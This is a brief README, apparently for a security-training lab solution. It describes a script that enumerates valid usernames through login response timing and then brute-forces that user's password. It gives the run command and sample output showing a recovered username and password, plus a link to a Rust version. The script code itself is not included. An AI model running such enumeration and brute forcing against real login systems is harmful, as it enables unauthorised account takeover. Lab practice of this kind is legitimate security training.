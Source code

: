 # Hack Steps
1. Obtain a valid username via response timing
2. Brute force password of that valid username

# Run Script
1. Change the URL of the lab
2. Change the PATH for your usernames list
3. Change the PATH for you passwords list
4. Start script
```
~$ python username_enumeration_via_response_timing.py
```

# Expected Output
```
[#] Enumerate usernames..
Elapsed: 0 minutes || Failed: 0 || Trying (6/101): adam                                              
[#] Brute forcing password..
✅ Valid user: adam
Elapsed: 0 minutes || Failed: 0 || Trying (74/102): joshua                                            
✅ Login successfully:  username: adam, password: joshua
✅ Finished in: 0 minutes
Results was saved to: results
Failed users count: 0
Failed users: [  ]
Failed passwords count: 0
Failed passwords: [  ]
```

# Want to go faster?
Check the [Rust script](https://github.com/elqal3awii/WebSecurity-Academy-with-Rust/tree/main/Authentication/username_enumeration_via_response_timing) for this lab in both single-threaded and multi-threaded approaches.
